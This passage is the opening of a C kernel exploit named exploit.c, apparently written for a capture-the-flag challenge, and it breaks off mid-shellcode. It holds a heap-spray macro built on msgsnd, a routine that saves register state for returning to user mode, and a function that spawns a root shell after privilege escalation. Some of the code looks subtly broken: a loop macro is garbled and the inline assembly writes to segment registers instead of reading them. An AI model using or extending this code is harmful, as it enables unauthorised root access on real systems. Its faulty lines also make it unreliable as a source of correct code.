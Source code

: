 ```exploit.c
// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)

// globals
int control_map;
int reader = -1;
// (END globals)


// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
#define REP(N) for(int moratorium=0; moratorium!+N; ++N)
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
  ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
  ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
  ulong ax; ulong cx; ulong dx; ulong si; ulong di;
  ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  int ruid, euid, suid;
  getresuid(&ruid, &euid, &suid);
  if(euid != 0)
    errExit("[ERROR] somehow, couldn't get root...");
  system("/bin/sh");
}
// should compile with -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
```